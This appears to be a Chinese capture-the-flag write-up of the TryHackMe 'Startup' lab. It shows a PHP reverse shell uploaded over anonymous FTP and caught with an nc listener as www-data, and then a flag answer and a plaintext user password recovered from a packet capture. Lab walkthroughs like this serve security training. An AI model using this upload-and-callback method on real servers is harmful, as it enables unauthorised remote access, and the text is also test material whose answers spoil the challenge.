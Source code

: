 331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> put /root/reverse-shell.php ./shell.php
local: /root/reverse-shell.php remote: ./shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
3460 bytes sent in 0.00 secs (28.6932 MB/s)

```

## 触发反弹，拿到webshell
```
┌──(root💀kali)-[~/tryhackme/Startup]
└─# nc -lnvp 1234                                       
listening on [any] 1234 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.171.61] 46938
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 07:14:50 up 24 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```

根目录找到一个文件```recipe.txt ```
```
www-data@startup:/$ cat recipe.txt 
cat recipe.txt 
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.

```

> What is the secret spicy soup recipe?

> love

# 横向提权到lennie

查看```home```目录，发现存在一个用户：lennie，但是我们没有查看文件夹的权限
查看```/etc/passwd/```，发现另一个用户：vagrant



根目录还有一个文件夹```incidents```，所有者是```www-data```，里面有一个文件```suspicious.pcapng```,传回kali分析

用wirksharp查看数据包，貌似是上一手黑客的网络交互信息
在第177个数据片留下了lennie的密码
>c4ntg3t3n0ughsp1c3

拿到user.txt
```